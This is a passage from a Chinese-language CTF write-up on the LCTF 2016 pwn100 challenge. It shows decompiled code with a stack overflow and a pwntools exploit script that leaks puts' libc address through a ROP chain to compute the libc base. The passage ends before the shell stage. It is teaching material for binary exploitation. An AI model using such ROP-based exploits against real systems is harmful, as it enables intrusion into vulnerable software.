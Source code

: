 > 该函数常用于在格式化字符串中泄露内存，和 puts 差不多，也受到 `\x00` 的影响，只是没有在末尾自动添加 `\n`罢了。
>

---

> 题目来源：LCTF 2016-pwn100
>

老规矩，文件保护检查走一波：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610450644777-5ac5249f-6e49-4cbf-99bb-43bac49e005a.png)

64位程序，只开启了NX保护。IDA里看一下重要函数：

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  sub_40068E();
  return 0LL;
}
---------------------------------------------------------------------
int sub_40068E()
{
  char v1; // [rsp+0h] [rbp-40h]

  sub_40063D((__int64)&v1, 200);
  return puts("bye~");
}
---------------------------------------------------------------------
void __cdecl sub_40063D(__int64 a1, signed int a2)
{
  signed int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; i < a2; ++i )
    read(0, (void *)(i + a1), 1uLL);
}
```

可以看到，存在明显的栈溢出，同时不存在system和"/bin/sh"，用ret2__libc_csu_init写一下正常攻击的exp吧：

```python
#coding=utf-8
from pwn import *
context.log_level='debug'

p=process('./pwn100')
elf=ELF('./pwn100')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
pop_rdi_ret=0x400763
main_addr=0x4006B8
start_addr=0x400550
payload=72*'a'+p64(pop_rdi_ret)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
payload=payload.ljust(200,'b')
p.send(payload)
leak_addr=u64(p.recv()[5:].ljust(8,'\x00'))-0xa000000000000
'''
[DEBUG] Received 0xc bytes:
    00000000  62 79 65 7e  0a a0 c6 a7  f7 ff 7f 0a               │bye~│····│····│
    0000000c
'''
print "success leak addr",hex(leak_addr)
libc_base=leak_addr-libc.symbols['puts']
```